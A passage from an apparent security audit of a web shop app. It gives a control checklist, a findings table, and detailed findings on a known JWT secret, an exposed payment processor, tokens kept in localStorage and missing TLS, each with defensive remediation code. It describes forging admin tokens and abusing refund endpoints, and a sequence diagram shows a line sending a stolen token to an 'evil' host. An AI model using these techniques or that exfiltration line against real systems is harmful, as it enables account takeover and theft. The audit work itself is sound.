### DF-20 — Migration & seed (one-shot)
The `migrate` compose service runs `knex migrate:latest` and gates `api` startup via `depends_on: service_completed_successfully`. `npm run seed` is a manual step that **truncates every table** and inserts an admin and a CS agent with the publicly documented password `ChangeMe123!`. Users: operator.



---

## 5. Control checklist by data flow

Legend: **P** = present with an identified enforcement point, **A** = absent/unverifiable, **N/A** = not applicable. Finding IDs reference §6.

| Control | DF-1/2 auth | DF-3 session | DF-4/5 catalog+reviews read | DF-6/7 review write | DF-8/9 cart+addr | DF-10 tokenize | DF-11 checkout | DF-12 orders read | DF-13/14 admin catalog | DF-15 role change | DF-16 CS read | DF-17 refund | DF-18 exchange | DF-19/20 db+migrate |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| Injection (SQL/NoSQL/cmd/template) | P (Knex binds) | P | P (`andWhereILike` bound) | P | P | P | P | P | P | P | P (bound `ILIKE`) | P | P | P (no `raw`) |
| XSS / output encoding | P (React escaping) | P | P | P | P | P | P | P | P | P | P | P | P | N/A |
| CSP / security headers | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** | **A** | **A** | **A** | **A** | **A** | **A** | **A** | **A** | N/A |
| SSRF | N/A | N/A | N/A | N/A | N/A | N/A | P (fixed base URL) | N/A | N/A | N/A | N/A | P | N/A | N/A |
| CSRF | P (header auth, not cookie) | P | N/A | P | P | **A** F-02 (`/fauxpay/*` no origin/CSRF control) | P | P | P | P | P | P | P | N/A |
| Token theft / manipulation | **A** F-01 (known secret) | **A** F-01, F-03 (localStorage) | N/A | **A** F-01 | **A** F-01 | **A** F-07 (card token bearer, non-expiring) | **A** F-01, F-07 | **A** F-01 | **A** F-01 | **A** F-01 | **A** F-01 | **A** F-01 | **A** F-01 |
| Broken authentication | **A** F-05 (no lockout), F-06 (enumeration/unverified email) | **A** F-03 | N/A | P | P | N/A (unauth by design, see F-02) | P | P | P | P | P | P | P | N/A |
| Session expiration / revocation | **A** F-03 (12h, no `refresh_tokens`) | **A** F-03 (no logout endpoint) | N/A | **A** F-03 | **A** F-03 | N/A | **A** F-03 | **A** F-03 | **A** F-03 | **A** F-03 | **A** F-03 | **A** F-03 | **A** F-03 | N/A |
| Encryption in transit | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04, F-07 (PAN/CVV cleartext) | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 | **A** F-04 (no `sslmode`) |
| Encryption / hashing at rest | P (bcrypt cost 10) | N/A | N/A | N/A | N/A | N/A | P (no PAN stored) | N/A | N/A | N/A | N/A | N/A | N/A | P (no PAN column) |
| Input validation | P (len>=8 only; no complexity) | N/A | P | P (rating bounded; **A** no body length cap F-12) | P (qty int>0; **A** no field length caps F-12) | P (regex `\d{13,19}`; no Luhn) | P | P | P | P (role allowlist) | P | P (int>0) | **A** F-09 (qty/ids unvalidated) | N/A |
| Rate limiting / lockout | **A** F-05 | **A** | **A** | **A** | **A** | **A** F-02/F-12 | **A** F-08 | **A** | **A** | **A** | **A** | **A** | **A** | N/A |
| Secrets handling | **A** F-01 (placeholder secret, compose fallbacks) | **A** F-01 | N/A | N/A | N/A | **A** F-02 (default API key) | **A** F-02 | N/A | N/A | N/A | N/A | **A** F-02 | N/A | **A** F-01 (`DB_PASSWORD:-widgetshop`) |
| Audit logging | **A** F-11 (no login/auth events) | **A** F-11 | N/A | N/A | N/A | N/A | **A** F-11 | N/A | P (`created_by`/`updated_by`) | **A** F-11 (no record of role change) | N/A | P (`issued_by`) | P (`processed_by`) | **A** |
| Timing attacks | P (bcrypt compare) | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A |
| Broken Object Level Authorization | N/A | P (`sub` from token) | P (public data) | P (`review.user_id !== sub`) | P (scoped by `user_id`/`cart_id`) | N/A | P (address ownership checked) | P (scoped by `user_id`) | N/A (role-wide) | N/A | N/A (role-wide) | N/A (role-wide) | **A** F-09 (exchange not bound to order's items) | N/A |
| Broken Function Level Authorization | N/A | P | P | P (admin delete gated) | P | N/A | P | P | P (`requireRole('admin')`) | P | P (`requireRole('customer_service')`) | P | P | N/A |
| Server-side recomputation of money/qty | N/A | N/A | N/A | N/A | P (price never client-supplied) | N/A | P (`orders.js:41-45` re-prices) | N/A | P (admin-authoritative) | N/A | N/A | P (capped at `order.total_cents`) | **A** F-09 (no price settlement at all) | N/A |
| Destination/beneficiary validation | N/A | N/A | N/A | P (order_item bound) | P | N/A | P (own address only) | N/A | N/A | N/A | N/A | P (refunds to original txn) | **A** F-09 (replacement widget arbitrary) | N/A |
| Workflow order / replay | N/A | N/A | N/A | P (purchase-before-review) | N/A | N/A | **A** F-08 (stock committed before payment, no compensation), **A** F-10 (oversell race) | N/A | N/A | N/A | N/A | P (processor caps per txn) | **A** F-09 (any status transition, `received` skippable) | P (`service_completed_successfully`) |
| Uniqueness / ownership invariants | P (unique email index) | N/A | N/A | P (unique `(user_id,widget_id)`) | P (unique `(cart_id,widget_id)`, unique `carts.user_id`) | N/A | P | N/A | P (unique `sku`, `categories.name`) | **A** F-11 (last-admin/self-demotion unguarded) | N/A | P | **A** F-09 | N/A |
| Real-world identifier verification | **A** F-06 (email never proven) | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A | N/A |
| Error / info leakage | P (generic 401) | P | P | P | P | P | **A** F-12 (processor `detail` echoed) | P | P | P | P | **A** F-12 | P | P (generic 500 handler) |
| CORS / cookie configuration | **A** F-11a (`cors()` wildcard) | **A** F-11a | **A** F-11a | **A** F-11a | **A** F-11a | **A** | **A** | **A** | **A** | **A** | **A** | **A** | **A** | N/A |
| Mass assignment | P (`role` hardcoded) | N/A | N/A | P (allowlist) | P (explicit fields) | N/A | P (no client prices) | N/A | P (allowlist `admin.js:34`) | P | N/A | P | **A** F-09 (raw body fields inserted) | N/A |
| Container / dependency hardening | — | — | — | — | — | — | — | — | — | — | — | — | — | **A** F-13 (`npm install`, nginx root, no resource limits) |

---

## 6. Findings

### Findings table

| ID | Title | Severity | Impact | Likelihood | Complexity | Primary file:line | STRIDE |
|---|---|---|---|---|---|---|---|
| F-01 | Publicly-known placeholder `JWT_SECRET` allows forging admin/CS tokens | **Critical** | 5 | 5 (Certain) | 5 (Low) | `.env.example:9`, `api/src/middleware/auth.js:3,11` | S, T, E, I |
| F-02 | Payment processor `/charge` and `/refund` published to the internet via nginx with a default shared key | **Critical** | 5 | 4 (Very Likely) | 5 (Low) | `web/nginx.conf:12-15`, `fauxpay/src/server.js:14-19` | S, T, I, D, E |
| F-03 | 12-hour JWT in `localStorage`, no refresh rotation, no server-side revocation, no logout endpoint | **High** | 4 | 4 (Very Likely) | 3 (Medium) | `web/src/api/client.js:6,11`, `api/src/routes/auth.js:33,48` | S, T, R, I |
| F-04 | No API Gateway: cleartext HTTP, no TLS, no rate limiting, no security headers/CSP | **High** | 4 | 4 (Very Likely) | 4 (Low–Med) | `docker-compose.yml:4-5`, `web/nginx.conf:1-19` | S, T, I |
| F-05 | No account lockout or rate limiting on login/register — unlimited credential stuffing | **High** | 4 | 5 (Certain) | 5 (Low) | `api/src/routes/auth.js:37-53` | S, E, D |
| F-06 | Registration leaks account existence and never verifies email ownership | **Medium** | 3 | 4 (Very Likely) | 5 (Low) | `api/src/routes/auth.js:20-23,26-34` | S, I |
| F-07 | Raw PAN/CVV routed through our own nginx; card token stored and reusable as a bearer value | **High** | 4 | 3 (Likely) | 4 (Low–Med) | `web/src/api/client.js:4,77-86`, `api/src/routes/orders.js:80` | I, T, R |
| F-08 | Stock is committed before payment and never restored on failure — anonymous-cost inventory wipe | **High** | 4 | 4 (Very Likely) | 4 (Low–Med) | `api/src/routes/orders.js:61-73` | D, T |
| F-09 | CS exchange flow: unvalidated returned/replacement items, arbitrary state transitions, no settlement | **Medium** | 4 | 3 (Likely) | 3 (Medium) | `api/src/routes/cs.js:71-114` | T, E, R |
| F-10 | Checkout stock check/decrement race allows overselling into negative inventory | **Medium** | 3 | 3 (Likely) | 3 (Medium) | `api/src/routes/orders.js:36-63` | T, D |
| F-11 | No audit trail for authentication or privilege changes; no last-admin/self-demotion guard | **Medium** | 3 | 3 (Likely) | 2 (Med–High) | `api/src/routes/admin.js:70-78`, `api/src/app.js:32-35` | R, E |
| F-11a | Wildcard CORS on all API routes | **Low** | 2 | 3 (Likely) | 4 (Low) | `api/src/app.js:16` | I, T |
| F-12 | Unbounded request/field sizes and echoed processor errors (resource consumption + info leak) | **Low** | 2 | 3 (Likely) | 5 (Low) | `api/src/app.js:17`, `api/src/routes/orders.js:73`, `fauxpay/src/server.js:39` | D, I |
| F-13 | Container/build hardening gaps: `npm install` over lockfile, nginx as root, no limits | **Low** | 3 | 2 (Possible) | 2 (Med–High) | `api/Dockerfile:4`, `web/Dockerfile:4,8-11` | T, E |

---

### F-01 — Publicly-known placeholder `JWT_SECRET` allows forging admin and CS tokens

**Severity: Critical** (Impact 5, Likelihood 5, Complexity 5)

- **Impact — Catastrophic.** The JWT is the *only* thing the API uses to establish identity and role (`api/src/middleware/auth.js:11`, `requireRole` at `auth.js:20`). Forging one yields admin (catalog/price/role control) and customer_service (read all customer PII and order history, issue refunds to real cards) simultaneously, plus impersonation of any customer.
- **Likelihood — Certain.** The secret value is committed in `.env.example` and reproduced verbatim in the live `.env`; `README.md:8` instructs `cp .env.example .env`, so the deployed secret is the published one. Trying known placeholder secrets is the first thing any attacker or automated scanner does.
- **Complexity — Low.** Two lines of `jsonwebtoken` or a paste into jwt.io. No prior account, no privileges.

**Evidence**

`.env.example:9` (committed) and `.env:9` (live, identical):
```
JWT_SECRET=change-me-to-a-long-random-string
```
`api/src/middleware/auth.js:3,11`:
```js
const JWT_SECRET = process.env.JWT_SECRET;
...
req.user = jwt.verify(token, JWT_SECRET);
```
`api/src/server.js:3-6` only checks that the variable is *set*, never that it is strong or non-default:
```js
if (!process.env.JWT_SECRET) { console.error('JWT_SECRET environment variable is required'); process.exit(1); }
```
Compare `DESIGN.md:934-936`, which requires signing secrets be "treated as secrets" — the placeholder defeats that entirely. Supporting evidence: `docker-compose.yml:41,45,55` apply the same pattern to other secrets (`${DB_PASSWORD:-widgetshop}`, `${FAUXPAY_API_KEY:-fauxpay_test_key}`), so a missing `.env` silently yields known credentials.

**Description.** `requireAuth` trusts any HS256 token that verifies against `JWT_SECRET`, and it reads `role` straight out of the token payload rather than from the database. Because the secret is the documented placeholder, an unauthenticated attacker mints `{"sub":1,"email":"x","role":"admin","exp":<future>}`, signs it with `change-me-to-a-long-random-string`, and is an admin. Switching `role` to `customer_service` gives access to `GET /api/cs/orders` (every customer's email and order history) and `POST /api/cs/orders/:id/refunds`, which moves real money at the processor. Changing `sub` impersonates any specific customer for cart, address, and order-history access. Note that the role claim is never re-read from `users.role`, so even a legitimately demoted staff member keeps their privileges for the full 12-hour token lifetime.



**Root cause.** Secret material is supplied as a committed placeholder with no startup validation of strength or provenance, and authorization decisions are made from self-asserted token claims that are never reconciled with the database.

**Remediation — fail-closed secret validation plus a server-side session/claim reconciliation.**

1. Generate a real secret per environment and refuse to boot on a weak/default one. Add to `api/src/server.js` (replacing lines 3-6):

```js
require('dotenv').config();
const crypto = require('crypto');

const KNOWN_PLACEHOLDERS = new Set([
  'change-me-to-a-long-random-string',
  'change-me', 'secret', 'changeme', 'dev', 'test',
]);

function assertStrongSecret(name) {
  const v = process.env[name];
  if (!v) { console.error(`${name} is required`); process.exit(1); }
  if (KNOWN_PLACEHOLDERS.has(v.trim().toLowerCase())) {
    console.error(`${name} is set to a known placeholder value. Generate one with: openssl rand -base64 48`);
    process.exit(1);
  }
  // Require >= 256 bits of material for HS256 (RFC 7518 3.2).
  if (Buffer.byteLength(v, 'utf8') < 32) {
    console.error(`${name} must be at least 32 bytes; got ${Buffer.byteLength(v, 'utf8')}`);
    process.exit(1);
  }
  if (crypto.createHash('sha256').update(v).digest('hex') ===
      crypto.createHash('sha256').update('change-me-to-a-long-random-string').digest('hex')) {
    process.exit(1);
  }
}

assertStrongSecret('JWT_SECRET');
assertStrongSecret('FAUXPAY_API_KEY');
```

2. Replace the placeholder in `.env.example` with an instruction rather than a usable value, so `cp .env.example .env` cannot produce a bootable-but-insecure deployment:

```
# Generate with: openssl rand -base64 48   (the API refuses to start with a placeholder)
JWT_SECRET=
FAUXPAY_API_KEY=
```

3. Pin the algorithm and stop trusting the `role` claim. In `api/src/middleware/auth.js`:

```js
const jwt = require('jsonwebtoken');
const db = require('../db/connection');
const JWT_SECRET = process.env.JWT_SECRET;

async function requireAuth(req, res, next) {
  const header = req.headers.authorization || '';
  const token = header.startsWith('Bearer ') ? header.slice(7) : null;
  if (!token) return res.status(401).json({ error: 'Authentication required' });
  try {
    const claims = jwt.verify(token, JWT_SECRET, {
      algorithms: ['HS256'],          // no algorithm confusion
      issuer: 'widgetshop-api',
      audience: 'widgetshop-web',
      maxAge: '15m',
    });
    // Authoritative role lookup: the token asserts *who*, the DB decides *what*.
    const user = await db('users').where({ id: claims.sub }).select('id', 'email', 'role').first();
    if (!user) return res.status(401).json({ error: 'Invalid or expired token' });
    req.user = { sub: user.id, email: user.email, role: user.role };
    next();
  } catch (err) {
    return res.status(401).json({ error: 'Invalid or expired token' });
  }
}
```
and sign with matching `issuer`/`audience` in `auth.js` (`jwt.sign(payload, JWT_SECRET, { algorithm:'HS256', expiresIn:'15m', issuer:'widgetshop-api', audience:'widgetshop-web' })`).

*Why this closes the gap:* the fail-closed startup check makes it impossible to run the known secret (removing the forgery capability), and the authoritative DB role lookup means that even a future key compromise cannot escalate a customer's `sub` into staff privileges — the attacker would need to be that user *and* that user would need the role. For a production posture, move the secret to Docker secrets / a managed KMS and rotate it (a rotation-tolerant verifier accepting a `kid`-selected current+previous key) so compromise is recoverable without a global logout outage.

**OWASP mapping.** A02:2021 Cryptographic Failures; A07:2021 Identification and Authentication Failures; A05:2021 Security Misconfiguration. API Security Top 10: API2 Broken Authentication, API8 Security Misconfiguration. ASVS v5.0: V3.5 (token/JWT verification, explicit algorithm allowlist), V6.4 (secret management, no default secrets), V2.2/V9 (authN decisions not derived from unverified client-supplied claims).

---

### F-02 — Payment processor `/charge` and `/refund` are published to the internet through nginx and protected only by a default shared key

**Severity: Critical** (Impact 5, Likelihood 4, Complexity 5)

- **Impact — Catastrophic.** `/fauxpay/refund` moves money to the cardholder's instrument; `/fauxpay/charge` creates charges against any token FauxPay holds. `/fauxpay/tokenize` becomes a free, anonymous card-validity oracle hosted on our own domain — a card-testing service for carders, with our brand and IP reputation attached.
- **Likelihood — Very Likely.** `/fauxpay/` is a directory listed in the public nginx config and is trivially discovered by path fuzzing or by reading `web/src/api/client.js:4` in the shipped JS bundle. The API key's default value is committed.
- **Complexity — Low.** Plain `curl` with a header copied out of `.env.example`.

**Evidence**

`web/nginx.conf:12-15` — the processor is reverse-proxied to the public listener with the path prefix stripped, so *every* FauxPay route is reachable:
```nginx
location /fauxpay/ {
    proxy_pass http://fauxpay:4000/;
    proxy_set_header Host $host;
}
```
`fauxpay/src/server.js:4,14-19` — the only control on charge/refund is a static bearer key that defaults to a published value:
```js
const API_KEY = process.env.FAUXPAY_API_KEY || 'fauxpay_test_key';
function requireApiKey(req, res, next) {
  const header = req.headers.authorization || '';
  const key = header.startsWith('Bearer ') ? header.slice(7) : null;
  if (key !== API_KEY) return res.status(401).json({ error: 'Invalid FauxPay API key' });
  next();
}
```
`.env.example:12` / `.env:12`: `FAUXPAY_API_KEY=fauxpay_test_key`; `docker-compose.yml:55`: `FAUXPAY_API_KEY: ${FAUXPAY_API_KEY:-fauxpay_test_key}`.
`fauxpay/src/server.js:29` — `/tokenize` has no `requireApiKey` at all.
This directly contradicts `DESIGN.md:83` ("the payment processor is an external system outside our trust boundary") and `DESIGN.md:929` (only `api`, server-to-server, plus the browser's tokenize call, should reach it).

**Description.** Because nginx strips the `/fauxpay/` prefix and proxies the whole origin, a remote attacker reaches processor endpoints that the design never intended to be client-facing. With the committed default key they can call `POST /fauxpay/refund {transaction_id, amount_cents}` for any transaction id they can obtain (order/refund identifiers surface through the CS API, which F-01 opens, or through a compromised staff browser), and `POST /fauxpay/charge {card_token, amount_cents, order_id}` against any token in FauxPay's store — charging a card with no corresponding order in our system, which also silently desynchronizes processor state from our ledger (our `payments`/`refunds` rows will never reflect it, so reconciliation misses the theft). `/tokenize` needs no key: an attacker scripts thousands of card numbers through our public endpoint, using the 400-vs-201 response and the returned `brand` as an oracle, and simultaneously grows FauxPay's unbounded in-memory `tokens` Map (`fauxpay/src/server.js:39`) until the container is OOM-killed, taking checkout down for everyone. Even when FauxPay is swapped for a real gateway per the design, the structural flaw remains: the gateway's server-to-server surface is being proxied by our public web tier.



**Root cause.** The public web tier reverse-proxies the payment processor's full origin instead of exposing only the single browser-facing tokenization surface, and the processor authenticates its money-moving endpoints with a single static, committed shared secret rather than a per-caller credential bound to network position.

**Remediation — network segmentation with a hosted-fields tokenization path, plus per-caller processor credentials.**

1. **Stop proxying the processor origin.** Remove the `location /fauxpay/` block from `web/nginx.conf` entirely. Move card entry to the processor's own hosted field / iframe (the pattern `DESIGN.md:398` already specifies): the browser posts card data to `https://<processor>/tokenize` on the *processor's* origin and receives the token via `postMessage`. Our infrastructure then has no tokenization route to abuse or to secure. If a same-origin proxy is unavoidable during local development, allowlist exactly one method+path and nothing else:

```nginx
# Dev only: expose ONLY tokenize, never charge/refund.
location = /fauxpay/tokenize {
    limit_except POST { deny all; }
    limit_req zone=tokenize burst=3 nodelay;   # see F-04 for zone definition
    proxy_pass http://fauxpay:4000/tokenize;
    proxy_set_header Host $host;
}
# No other /fauxpay/* location exists -> /fauxpay/charge and /fauxpay/refund return 404.
```

2. **Put the processor on a network the browser cannot reach.** In `docker-compose.yml`, give `fauxpay` only a back-end network shared with `api`:

```yaml
services:
  web:
    networks: [frontend]
  api:
    networks: [frontend, backend]
  fauxpay:
    networks: [backend]        # not on 'frontend' -> unreachable from web/nginx
  db:
    networks: [backend]
networks:
  frontend:
  backend:
    internal: true
```

3. **Bind the money-moving endpoints to the API's identity, not a shared string.** Replace `requireApiKey` with a constant-time comparison against a per-caller secret and add idempotency, so a replayed request cannot double-move money:

```js
const crypto = require('crypto');
const CLIENT_KEYS = new Map(          // keyId -> secret, injected via env/secret store
  (process.env.FAUXPAY_CLIENT_KEYS || '').split(',').filter(Boolean)
    .map((pair) => pair.split(':'))
);

function requireApiKey(req, res, next) {
  const keyId = req.headers['x-fauxpay-key-id'] || '';
  const presented = (req.headers.authorization || '').replace(/^Bearer /, '');
  const expected = CLIENT_KEYS.get(keyId);
  if (!expected) return res.status(401).json({ error: 'Invalid FauxPay API key' });
  const a = Buffer.from(presented), b = Buffer.from(expected);
  if (a.length !== b.length || !crypto.timingSafeEqual(a, b)) {
    return res.status(401).json({ error: 'Invalid FauxPay API key' });
  }
  req.processorClient = keyId;
  next();
}
```
and require an `Idempotency-Key` header on `/charge` and `/refund`, returning the stored result for a repeated key.

*Why this closes the gap:* removing the proxy route and placing the processor on an `internal` back-end network makes `/charge` and `/refund` unreachable from any browser or internet host regardless of whether the key leaks — the control becomes topological rather than secret-dependent. Hosted fields additionally eliminate the tokenization oracle from our attack surface (and, per F-07, removes our web tier from PCI scope). Per-caller keys with constant-time comparison and idempotency keys mean a leaked credential is revocable in isolation and a replayed request cannot move money twice.

**OWASP mapping.** A01:2021 Broken Access Control; A05:2021 Security Misconfiguration; A02:2021 Cryptographic Failures (static shared secret). API Security Top 10: API8 Security Misconfiguration, API5 Broken Function Level Authorization, API6 Unrestricted Access to Sensitive Business Flows, API4 Unrestricted Resource Consumption, API10 Unsafe Consumption of APIs. ASVS v5.0: V1.4/V13 (service-to-service authentication and segmentation), V4.1 (function-level access control), V8.2 (unintended exposure of internal endpoints), V6.4 (secret management).

---

### F-03 — 12-hour JWT in `localStorage` with no refresh rotation, revocation, or logout endpoint

**Severity: High** (Impact 4, Likelihood 4, Complexity 3)

- **Impact — Severe.** A single captured token grants full account access — including staff accounts — for up to 12 hours, and there is no mechanism anywhere in the system to cut it short. No password change, no password reset, no administrative action can end a session.
- **Likelihood — Very Likely.** `localStorage` tokens are the single most-targeted artifact in SPA attacks; with no CSP (F-04) and no TLS (F-04), capture routes are plentiful. Shared/kiosk browsers retain the token indefinitely across sessions.
- **Complexity — Medium.** Needs an injection foothold, a network position, or physical/local access rather than a bare unauthenticated request.

**Evidence**

`web/src/api/client.js:6-15` — the token is read from and written to JS-readable persistent storage, exactly what `DESIGN.md:92-94` forbids:
```js
let authToken = localStorage.getItem('token');

export function setToken(token) {
  authToken = token;
  if (token) { localStorage.setItem('token', token); }
  else { localStorage.removeItem('token'); }
}
```
`api/src/routes/auth.js:33` and `:48` — a single 12-hour token, 48x the design's 15-minute access-token budget, with no refresh token issued:
```js
const token = jwt.sign({ sub: user.id, email: user.email, role: user.role }, JWT_SECRET, { expiresIn: '12h' });
```
`web/src/AuthContext.jsx:30-33` — logout is purely client-side; `api.logout()` (declared at `client.js:38`) is never invoked, and no `/api/auth/logout` route exists in `api/src/routes/auth.js` (only `/register` and `/login`) nor is one mounted in `api/src/app.js:22`:
```js
function logout() { setToken(null); setUser(null); }
```
Schema confirmation: no `refresh_tokens` and no `password_reset_tokens` table exists in `api/src/db/migrations/` (nine migrations, none create them), so the revocation substrate `DESIGN.md:98,144` relies on is absent. There is also no change-password or reset-password endpoint, so a user who knows their session was stolen has no remediation path at all.

**Description.** The design's whole session model — short in-memory access token, `HttpOnly`/`Secure`/`SameSite=Strict` rotating refresh cookie, family revocation on reuse — was replaced by one long-lived bearer token in `localStorage`. Any of the following yields 12 hours of full account control: a script injected into the SPA origin (a future XSS, a compromised npm dependency in the Vite build, or a malicious browser extension) reading `localStorage.token` and POSTing it out; a passive network observer on the cleartext HTTP channel (F-04); or anyone who later uses the same browser profile, since `localStorage` survives tab and browser restarts. "Log out" gives the user a false sense of termination: the browser forgets the token but the API will keep honoring the copy the attacker holds until `exp`. Because the role is baked into the token (see F-01), demoting a compromised admin does not take effect either. This is also a repudiation problem: every action the attacker performs is recorded as `issued_by`/`updated_by` the legitimate user (`cs.js:55`, `admin.js:44`) with no way to distinguish them.

```mermaid
sequenceDiagram
    actor V as Victim (admin)
    participant B as Victim browser (SPA)
    participant Atk as Attacker
    participant API
    participant DB
    V->>API: POST /api/auth/login
    API-->>B: 200 {token: <12h JWT, role=admin>}
    B->>B: localStorage.setItem('token', jwt)   // persistent, JS-readable
    Note over B: No CSP header served (F-04) -> injected script executes
    Atk->>B: Injected script (XSS / malicious extension / compromised dependency)
    B->>Atk: fetch('https://evil/x?t=' + localStorage.getItem('token'))
    Note over Atk: EXPLOIT SUCCEEDS — attacker holds a valid admin token
    V->>B: Click "Log out"
    B->>B: localStorage.removeItem('token')
    Note over B,API: No server call; no refresh_tokens row to revoke;<br/>/api/auth/logout does not exist
    Atk->>API: PATCH /api/admin/users/42/role {role:'admin'} (Bearer stolen token)
    API->>DB: UPDATE users SET role='admin' WHERE id=42
    API-->>Atk: 200 — persistent backdoor, attributed to the victim admin
    Note over V,API: Victim cannot terminate the session: no logout,<br/>no change-password, no reset-password endpoint exists
```

**Root cause.** The implemented session model is a single long-lived, client-persisted bearer token with no server-side session record, so there is nothing to bind to a device, rotate, or revoke — the exact design the architecture document specified against.

**Remediation — implement the design's split-token model: in-memory access token + `HttpOnly`/`Secure`/`SameSite=Strict` rotating refresh cookie backed by a server-side `refresh_tokens` table.**

Migration (`api/src/db/migrations/20260101000010_create_refresh_tokens.js`):
```js
exports.up = function (knex) {
  return knex.schema.createTable('refresh_tokens', (t) => {
    t.increments('id').primary();
    t.integer('user_id').unsigned().notNullable().references('id').inTable('users').onDelete('CASCADE');
    t.string('token_hash').notNullable().unique();     // sha256 of the opaque token, never plaintext
    t.integer('replaced_by').unsigned().references('id').inTable('refresh_tokens');
    t.timestamp('expires_at').notNullable();
    t.timestamp('revoked_at');
    t.timestamp('created_at').defaultTo(knex.fn.now());
    t.index(['user_id']);
  });
};
exports.down = (knex) => knex.schema.dropTableIfExists('refresh_tokens');
```

`api/src/routes/auth.js` — issue, rotate, revoke:
```js
const crypto = require('crypto');
const ACCESS_TTL = '15m';
const REFRESH_TTL_MS = 7 * 24 * 60 * 60 * 1000;
const sha256 = (s) => crypto.createHash('sha256').update(s).digest('hex');

const REFRESH_COOKIE = {
  httpOnly: true,                                   // injected JS can never read it
  secure: true,                                     // never sent over cleartext
  sameSite: 'strict',                               // blocks cross-site submission
  path: '/api/auth',                                // only the refresh/logout routes see it
  maxAge: REFRESH_TTL_MS,
};

async function issueSession(res, user) {
  const access = jwt.sign({ sub: user.id, role: user.role }, JWT_SECRET,
    { algorithm: 'HS256', expiresIn: ACCESS_TTL, issuer: 'widgetshop-api', audience: 'widgetshop-web' });
  const refresh = crypto.randomBytes(32).toString('base64url');
  await db('refresh_tokens').insert({
    user_id: user.id, token_hash: sha256(refresh),
    expires_at: new Date(Date.now() + REFRESH_TTL_MS),
  });
  res.cookie('refresh_token', refresh, REFRESH_COOKIE);
  return access;
}

router.post('/refresh', asyncHandler(async (req, res) => {
  // CSRF defense-in-depth: a cross-site <form>/ cannot set a custom header.
  if (req.headers['x-requested-with'] !== 'widgetshop-spa') {
    return res.status(403).json({ error: 'Forbidden' });
  }
  const presented = req.cookies?.refresh_token;
  if (!presented) return res.status(401).json({ error: 'Authentication required' });
  const row = await db('refresh_tokens').where({ token_hash: sha256(presented) }).first();
  if (!row || row.expires_at <= new Date()) return res.status(401).json({ error: 'Authentication required' });

  if (row.revoked_at) {
    // Reuse of a rotated-out token == theft signal: kill the whole family.
    await db('refresh_tokens').where({ user_id: row.user_id }).whereNull('revoked_at')
      .update({ revoked_at: db.fn.now() });
    res.clearCookie('refresh_token', REFRESH_COOKIE);
    return res.status(401).json({ error: 'Session revoked' });
  }

  const user = await db('users').where({ id: row.user_id }).first();
  const access = await issueSession(res, user);
  const [next] = await db('refresh_tokens').where({ user_id: user.id })
    .orderBy('id', 'desc').limit(1).select('id');
  await db('refresh_tokens').where({ id: row.id })
    .update({ revoked_at: db.fn.now(), replaced_by: next.id });
  res.json({ token: access });
}));

router.post('/logout', asyncHandler(async (req, res) => {
  const presented = req.cookies?.refresh_token;
  if (presented) {
    await db('refresh_tokens').where({ token_hash: sha256(presented) }).update({ revoked_at: db.fn.now() });
  }
  res.clearCookie('refresh_token', REFRESH_COOKIE);
  res.status(204).end();
}));
```

`web/src/api/client.js` — hold the access token in a module variable only, never in `localStorage`, and silently refresh on 401:
```js
let authToken = null;                      // in-memory only; dies with the tab
export function setToken(token) { authToken = token; }

async function request(path, { method = 'GET', body, _retried = false } = {}) {
  const headers = { 'Content-Type': 'application/json', 'X-Requested-With': 'widgetshop-spa' };
  if (authToken) headers.Authorization = `Bearer ${authToken}`;
  const res = await fetch(`/api${path}`, { method, headers, credentials: 'include',
    body: body ? JSON.stringify(body) : undefined });
  if (res.status === 401 && !_retried && path !== '/auth/refresh') {
    const r = await fetch('/api/auth/refresh', { method: 'POST', credentials: 'include',
      headers: { 'X-Requested-With': 'widgetshop-spa' } });
    if (r.ok) { setToken((await r.json()).token); return request(path, { method, body, _retried: true }); }
  }
  const data = res.status === 204 ? null : await res.json().catch(() => null);
  if (!res.ok) throw new Error(data?.error || `Request failed with status ${res.status}`);
  return data;
}
```
and make `AuthContext.logout()` `await api.logout()` before clearing state. Finally, add the missing `POST /api/auth/change-password` (re-verifying the current password per `DESIGN.md:371`) and the reset-password flow, each revoking the user's `refresh_tokens` rows — that revocation is only meaningful once the table above exists.

*Why this closes the gap:* the long-lived credential moves into an `HttpOnly` cookie that injected JavaScript provably cannot read, cutting the primary exfiltration vector; the access token's blast radius shrinks from 12 hours to 15 minutes and does not survive a reload; and because every session is now a database row, logout, password change, and reuse-detection can actually terminate it — `SameSite=Strict` plus the `X-Requested-With` requirement covers the CSRF exposure that cookie-based auth would otherwise introduce.

**OWASP mapping.** A07:2021 Identification and Authentication Failures; A04:2021 Insecure Design. API Security Top 10: API2 Broken Authentication. ASVS v5.0: V3.2 (session termination/revocation), V3.3 (session timeout), V3.4 (cookie-based session tokens: `HttpOnly`, `Secure`, `SameSite`), V3.5 (token-based session management), V8.3 (no sensitive data in client-side storage).

---

### F-04 — No API Gateway: cleartext HTTP, no TLS, no rate limiting, no security headers or CSP

**Severity: High** (Impact 4, Likelihood 4, Complexity 4)

- **Impact — Severe.** Every credential, every bearer token, and every card number/CVV crosses the network in plaintext, and all of the gateway's compensating controls (rate limiting, token pre-validation) are absent, which is what makes F-05, F-02, and F-08 cheap to exploit at scale.
- **Likelihood — Very Likely.** Passive interception on any shared or hostile network segment is routine, and the absence of rate limiting is discovered by the first automated scan.
- **Complexity — Low to Medium.** Reading traffic needs a network position (`tcpdump`/ARP spoof on the same LAN — script-kiddie tooling); abusing the missing rate limits needs nothing but `curl` in a loop.

**Evidence**

`docker-compose.yml:2-8` — `web` publishes port 80 as plain HTTP on the host, and there is **no `gateway` service** anywhere in the file (contrast `DESIGN.md:915,952-956`, which makes the gateway the sole published container):
```yaml
  web:
    build: ./web
    ports:
      - "8080:80"
```
`web/nginx.conf:1-19` (entire file) — `listen 80;` with no `ssl`, no `limit_req`, no `add_header`, no `proxy_set_header X-Forwarded-Proto`, and no JWT validation module:
```nginx
server {
    listen 80;
    server_name _;
    ...
    location /api/ { proxy_pass http://api:3000/api/; proxy_set_header Host $host; }
```
`api/src/package.json:12-21` — no `express-rate-limit`, no `helmet`; `api/src/app.js:14-20` adds no security headers.
`api/src/db/knexfile.js:5-11` — the Postgres connection specifies no `ssl` option, so DF-19 is cleartext too.
